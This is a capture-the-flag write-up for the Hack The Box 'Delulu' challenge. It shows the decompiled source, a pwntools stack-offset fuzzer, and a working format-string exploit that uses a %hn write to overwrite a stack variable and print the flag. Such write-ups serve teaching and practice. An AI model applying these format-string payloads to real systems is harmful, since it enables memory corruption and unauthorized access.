 ## Delulu [Very Easy]
### Initial Analysis
As usual, we start by checking the binary's protections and I particularly like to run [cwe_checker](https://github.com/fkie-cad/cwe_checker) on all challenges so we have a starting point in case nothing comes to mind after the analysis.
```bash
$ checksec delulu_patched
[*] '/home/flame/0x/ctf/htb-cyber-apocalypse-2024/pwn/delulu/challenge/delulu_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

$ cwe_checker ./delulu_patched
[CWE134] (0.1) (Externally Controlled Format String) Potential externally controlled format string for call to printf at 001014cb
```

As mentioned before, `cwe_checker` can be very useful in some cases, in this case it already detects a possible format string vulnerability in `printf`, and looking at the `checksec` output, we see that the binary has all possible protections detectable, so it's probably not a buffer overflow or anything like that.
In this challenge, we also have the source code for the binary, so we don't need the reverse engineering phase.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 pin[2]; // [rsp+0h] [rbp-40h] BYREF
  __int64 buf[6]; // [rsp+10h] [rbp-30h] BYREF

  buf[5] = __readfsqword(40u);
  pin[0] = 0x1337BABE;
  pin[1] = (__int64)pin;
  memset(buf, 0, 32);
  read(0, buf, 31uLL);
  printf("\n[!] Checking.. ");
  printf((const char *)buf);
  if ( pin[0] == 0x1337BEEF )
    delulu();
  else
    error("ALERT ALERT ALERT ALERT\n");
  return 0;
}

unsigned __int64 delulu()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(40u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
    exit(1);
  }
  printf("You managed to deceive the robot, here's your new identity: ");
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);
  return v3 - __readfsqword(0x28u);
}
```

The program simply checks if the value of pin is equal to `0x1337beef`, but this variable is already set to a value previously, the trick in this case is to overwrite the value of the variable in the stack by means of a **format string vulnerability**.

First of all, we basically need to find the position of the variable in the stack

Normally, in binaries with **format string vulnerability**, I use a fuzzing script similar to this one to map the values on the stack, bringing along their offset
```python
from pwn import *
elf = context.binary = ELF("./delulu_patched", checksec=False)

for i in range(100):
    try:
        p = process(level="error")
        p.sendlineafter(b">> ", "%{}$p".format(i).encode())

        result = p.recvuntil(b"[-]", drop=True)
        result = result.strip().split()[2]
        
        print(str(i) + ": " + str(result))
        p.close()
    except EOFError:
        pass
```

We can see that the value of the variable is in position `6` of the stack, the next address, at offset `7`, must be the actual address of the variable
```bash
~/delulu $ python3 fuzz.py
0: b'%0$p'
1: b'0x7fff0372f270'
2: b'(nil)'
3: b'0x7887ccb14887'
4: b'0x10'
5: b'0x7fffffff'
6: b'0x1337babe'
7: b'0x7fff2b59d3b0'
```

To confirm this, we can change the type of value we want to return in the format string payload, we'll change `$s` (string)
```bash
~/delulu $ python3 fuzz.py
0: b'%0$s'
1: b'[!]'
2: b'(null)'
3: b'H='
7: b'\xbe\xba7\x13'
```

Now we can see that the value of offset `7` in string, is the value of the `PIN` variable, knowing the offset to the variable address, we need to overwrite this value in the stack

>Some useful resources: \
https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/#overwriting-memory-at-any-location \
https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack

Since we only need to change the bytes of the variable (1337**babe** > 1337**beef**), the process becomes faster and easier, we can do it in two ways:
Using the hexadecimal value we want to overwrite and the position 
```python
payload = f"%{0xbeef}c%7$hn"
```

Or using the decimal representation
```python
payload = "%48879x%7$hn"
```

Note that in both examples we are using `$hn` instead of just $n, because we only want to overwrite the first **2 bytes** **(little-endian)** of the variable.

| Modifier | Description                                                       | Example                                                    |
| -------- | ----------------------------------------------------------------- | ---------------------------------------------------------- |
| i$       | Direct parameter access; Specifies the parameter to use for input | `%2$x` : hex value of second parameter                     |
| %ix      | Width modifier. Specifies the minimum width of the output.        | `%8x`: Hex value taking up 8 columns                       |
| %hh      | Length modifier. Specifies that length is sizeof(char)            | `%hhn`: Writes 1 byte to target pointer                    |
| %h       | Length modifier. Specifies that length is sizeof(short)           | `%hn`: Writes 2 bytes (in 32 bit System) to target pointer |
### Solution
By understanding all the steps, we can put together the final exploit, which will look something like this
```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug(
            [exe] + argv, gdbscript=gdbscript, *a, **kw
        )
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = "./delulu_patched"
elf = context.binary = ELF(exe, checksec=False)

p = start()

payload = f"%{0xbeef}c%7$hn"

p.sendlineafter(b'>>', bytes(payload, 'latin-1'))
flag = p.recvall().strip().split()[-1].decode()
info("Flag: " + flag)
```

The result is
```bash
~/delulu $ python3 solve.py
[+] Starting local process './delulu_patched': pid 127360
[+] Receiving all data: Done (47.83KB)
[*] Process './delulu_patched' stopped with exit code 0 (pid 127360)
[*] Flag: HTB{f4k3_fl4g_4_t35t1ng}
```
